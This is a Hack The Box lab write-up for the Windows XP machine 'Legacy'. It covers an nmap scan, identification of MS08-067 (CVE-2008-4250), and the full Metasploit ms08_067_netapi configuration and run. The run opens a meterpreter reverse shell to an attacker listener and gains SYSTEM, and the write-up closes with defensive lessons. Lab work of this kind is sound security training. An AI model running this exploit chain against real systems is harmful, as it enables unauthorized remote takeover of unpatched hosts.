

# Legacy

# Context

Lab link: [https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

Suggested tools: `nmap`, `msfconsole`

# Scenario

Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.



# Questions

Q1- How many TCP ports are open on Legacy?

Answer: 3

Reason: Three TCP ports are open on `legacy.htb` (`10.129.227.181`): `135` (MSRPC), `139` (NetBIOS-SSN), and `445` (SMB). A full-range SYN scan confirms no other ports are listening, narrowing the attack surface to SMB-related services, consistent with the box's stated theme.

```bash
$ nmap -sC -sV -p- legacy.htb -vv
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-30 11:47 -0400
Scanning legacy.htb (10.129.227.181) [65535 ports]
Discovered open port 135/tcp on 10.129.227.181
Discovered open port 139/tcp on 10.129.227.181
Discovered open port 445/tcp on 10.129.227.181
Completed SYN Stealth Scan at 11:47, 19.76s elapsed (65535 total ports)
```

Q2- What is the 2008 CVE ID for a vulnerability in SMB that allows for remote code execution?

Answer: CVE-2008-4250

Reason: `CVE-2008-4250` is the Microsoft Windows Server Service `NetPathCanonicalize` stack-based buffer overflow, patched by `MS08-067`. It affects legacy SMB implementations (Windows 2000 through Server 2008/XP SP2-SP3) and allows unauthenticated remote code execution via a crafted RPC request to the Server service, making it the textbook fit for `legacy.htb` given its `Windows XP` fingerprint and SMBv1-only exposure confirmed in the nmap scan.

Q3- What is the name of the Metasploit module that exploits CVE-2008-4250?

Answer: `ms08_067_netapi`

Reason: The module `windows/smb/ms08_067_netapi` targets the `NetAPI32.dll` path canonicalization flaw behind `CVE-2008-4250` / `MS08-067`, reachable over the `Server service` via the `BROWSER` or `SRVSVC` named pipe on `RPORT 445`. This is another discovery question confirming the exploit choice, not yet an action against `legacy.htb` itself.

```bash
Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                      loit.html
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload information:
  Space: 408
  Avoid: 8 characters

Description:
  This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing
  NX on some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same
  process) from crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent
  attempts. This is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2008-4250
  OSVDB (49243)
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/MS08-067
  https://www.rapid7.com/db/vulnerabilities/dcerpc-ms-netapi-netpathcanonicalize-dos/

Also known as:
  ECLIPSEDWING

msf exploit(windows/smb/ms08_067_netapi) > 
```

Q4- When exploiting MS08-067, what user does execution run as? Include the information before and after the .

Answer: `NT AUTHORITY\SYSTEM`

Reason: Exploiting `CVE-2008-4250` via the Metasploit module `windows/smb/ms08_067_netapi` against `10.129.227.181` returned a `Meterpreter` session confirmed as `NT AUTHORITY\SYSTEM` via `getuid`, granting immediate SYSTEM-level code execution with no privilege escalation required. The module auto-fingerprinted the target as `Windows XP SP3 English (AlwaysOn NX)` and triggered successfully on the first attempt.

```bash
msf exploit(windows/smb/ms08_067_netapi) > options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.129.227.181   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                       ploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.17.7       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

View the full module info with the info, or info -d command.

msf exploit(windows/smb/ms08_067_netapi) > run
[*] Started reverse TCP handler on 10.10.17.7:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.37/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (203450 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.17.7:4444 -> 10.129.227.181:1041) at 2026-10-30 11:57:14 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell 
Process 492 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>echo %USERNAME%
echo %USERNAME%
LEGACY$
```

Q5- User flag: `REDACTED`

Q6- Root flag: `REDACTED`

Q7- In addition to MS08-067, Legacy's SMB service is also vulnerable to another remote code execution vulnerability with a CVE ID from 2017. What is that ID?

Answer: CVE-2017-0143

Reason: `CVE-2017-0143` is one of the EternalBlue family of SMBv1 RCE vulnerabilities patched under `MS17-010`, caused by a type-confusion flaw in the SMB server's transaction handling that allows an attacker to control kernel heap memory and achieve remote code execution. This is a discovery question confirming a second viable exploit path on `legacy.htb` beyond `MS08-067`, not an additional chain step since root was already obtained.

# Attack Chain

| Time (EDT) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2026-10-30 11:48 | Reconnaissance | Full TCP port scan of `legacy.htb` (`10.129.227.181`) reveals only `135`, `139`, `445` open, fingerprinting as `Windows XP SP3` with `SMBv1` only (no SMBv2 negotiation) | T1046 |
| 2026-10-30 11:57 | Initial Access / Execution | Metasploit module `windows/smb/ms08_067_netapi` exploits `CVE-2008-4250` (`MS08-067`) stack buffer overflow in `NetPathCanonicalize`/`NetAPI32.dll` via the `srvsvc` RPC pipe, delivering `windows/meterpreter/reverse_tcp` to `10.10.17.7:4444` | T1210 |
| 2026-10-30 11:57 | Privilege Escalation (inherent) | Payload executes directly as `NT AUTHORITY\SYSTEM`, confirmed via `meterpreter > getuid`, no additional privesc required | T1068 |

## Attack Tree

```bash
HTB Legacy (10.129.227.181)
│
├── 445/tcp -- SMBv1 (Windows XP SP3, MS08-067 vulnerable)
│   └── msf exploit(windows/smb/ms08_067_netapi) -> CVE-2008-4250 NetPathCanonicalize overflow
│       └── Meterpreter session opened (10.10.17.7:4444)
│           └── shell as NT AUTHORITY\SYSTEM
│               │
│               ├── user.txt
│               │   └── [USER FLAG - REDACTED]
│               │
│               └── (no privesc needed, SYSTEM from initial exploit)
│                   └── root.txt
│                       └── [ROOT FLAG - REDACTED]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Target host | `legacy.htb` (`10.129.227.181`) |
|  | Open ports | `135`, `139`, `445` |
|  | OS fingerprint | `Windows XP SP3` |
| Exploitation | CVE | `CVE-2008-4250` (`MS08-067`) |
|  | Metasploit module | `windows/smb/ms08_067_netapi` |
|  | Pipe used | `BROWSER`/`SRVSVC` |
|  | Payload | `windows/meterpreter/reverse_tcp` |
|  | Attacker listener | `10.10.17.7:4444` |
| Access | Resulting privilege | `NT AUTHORITY\SYSTEM` |
| Flags | User flag | `[REDACTED]` |
|  | Root flag | `[REDACTED]` |

# Lab Insights

1. Legacy protocol support is rarely harmless by itself — it's a liability the moment a single unpatched host still speaks it. Here, `legacy.htb` exposing only `SMBv1` with no `SMBv2` fallback was itself a signal of an unpatched `Windows XP` host, and that protocol-version gap alone was enough to point directly at `MS08-067` as a viable path before any exploit was even attempted (T1046).
2. A single memory-corruption bug in a privileged service can collapse the entire access-control model in one step, skipping every intermediate privilege tier an attacker would normally have to fight through. The `NetPathCanonicalize` overflow in `CVE-2008-4250` runs inside the `Server service` process, which already operates as `NT AUTHORITY\SYSTEM` — so exploitation and privilege escalation happen atomically, with no separate privesc phase needed (T1210).
3. Unauthenticated, pre-auth RCE vulnerabilities in core OS services remain dangerous for years after patches ship, precisely because "legacy" systems kept alive for compatibility reasons are never patched retroactively. `MS08-067` was patched in 2008, yet remains the single most reliable exploitation path on any unmaintained `Windows XP`/`2003` host encountered in the wild or in a lab nearly two decades later (T1210).